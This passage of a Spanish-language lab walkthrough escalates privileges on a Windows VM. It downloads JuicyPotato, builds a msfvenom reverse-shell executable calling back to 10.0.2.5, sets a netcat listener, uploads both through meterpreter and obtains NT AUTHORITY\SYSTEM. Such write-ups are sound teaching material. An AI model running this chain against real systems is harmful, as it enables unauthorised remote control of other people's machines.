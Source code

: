 ```bash
$ wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Creamos una shell reversa para windows con `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.5 LPORT=8889 -f exe -o shell.exe
```

Nos ponemos a la escucha:

```bash
$ nc -nlvp 8889
listening on [any] 8889 ...

```

Subimos JuicyPotato y la shell que acamos de generar a la máquina victima. Después desde meterpreter abrimos una shell con `shell`:

```bash
meterpreter > upload JuicyPotato.exe
[*] Uploading  : /home/murrusko/vms/espeto/JuicyPotato.exe -> JuicyPotato.exe
[*] Uploaded 339.50 KiB of 339.50 KiB (100.0%): /home/murrusko/vms/espeto/JuicyPotato.exe -> JuicyPotato.exe
[*] Completed  : /home/murrusko/vms/espeto/JuicyPotato.exe -> JuicyPotato.exe
meterpreter > upload shell.exe
[*] Uploading  : /home/murrusko/vms/espeto/shell.exe -> shell.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/murrusko/vms/espeto/shell.exe -> shell.exe
[*] Completed  : /home/murrusko/vms/espeto/shell.exe -> shell.exe
meterpreter > shell
Process 1192 created.
Channel 4 created.
Microsoft Windows [Versi�n 6.3.9600]
(c) 2013 Microsoft Corporation. Todos los derechos reservados.

C:\Users\hacker\Downloads>

```

Ejecutamos JuicyPotato:

```bash
C:\Users\hacker\Downloads>.\JuicyPotato.exe -l 443 -t * -p .\shell.exe
.\JuicyPotato.exe -l 443 -t * -p .\shell.exe
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 443
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\hacker\Downloads>

```
